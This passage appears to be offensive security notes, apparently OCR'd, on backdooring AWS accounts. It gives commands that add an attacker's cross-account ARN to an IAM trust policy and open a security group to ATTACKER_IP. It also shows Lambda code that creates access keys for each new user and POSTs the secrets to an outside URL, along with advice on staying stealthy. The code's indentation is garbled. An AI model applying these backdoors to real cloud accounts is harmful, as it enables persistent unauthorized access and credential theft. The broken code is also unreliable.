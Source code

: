 - useful for when IAM role added to EC2 instance profile, and then the instance profile is attached to an EC2 instance
    - allows for temp creds to be used by EC2 instance to perform role actions

### Adding Backdoor to Trust Policy

- do not overwrite trust policy!
    - update the policy with your ARN
    
    `aws iam update-assume-role-policy --role-name <ROLE_NAME> --policy-document [file://trust-policy-backdoor.json](file://trust-policy-backdoor.json) --profile <PROFILE>`
    
    - note that the `policy-backdoor.json` will contain the cross-account ARN

## Backdooring EC2 Security Groups

- `IpPermissions` contains inbound traffic rules
- `IpPermissionsEgress` contains outbound traffic rules
- to backdoor, you can allow inbound traffic from your IP address
    - `aws ec2 authorize-security-group-ingress --group-id sg-0315cp741b51fr4d0 --
    protocol tcp --port <PORTS> --cidr <ATTACKER_IP>`

## Backdooring Lambda Function

- trigger Lambda function upon a certain event
    - works only if CloudTrail logging is enabled (because the Lambda function backdoor will be configured to trigger upon an event)
    - can create backdoor such as creating a second access key pair for a new user, then exfiltrating the key pair
    
    ```python
    import boto3
    from botocore.vendored import requests
    
    def lambda_handler(event,context):
    	if event['detail']['eventName']=='CreateUser':
    	client=boto3.client('iam')
    	try:
    		response=client.create_access_key(UserName=event['detail']['requestParamete
    		rs']['userName'])
    		requests.post('POST_URL',data={"AKId":response['AccessKey']['AccessKeyId'],
    		"SAK":response['AccessKey']['SecretAccessKey']})
    		except:
    		pass
    	return
    ```
    
- best practice to enable CloudTrail across all AWS regions
- it is better to backdoor existing Lambda functions as it is stealthier
    - this avoids creating new resources in an environment, which can be noisy

## Backdooring ECR
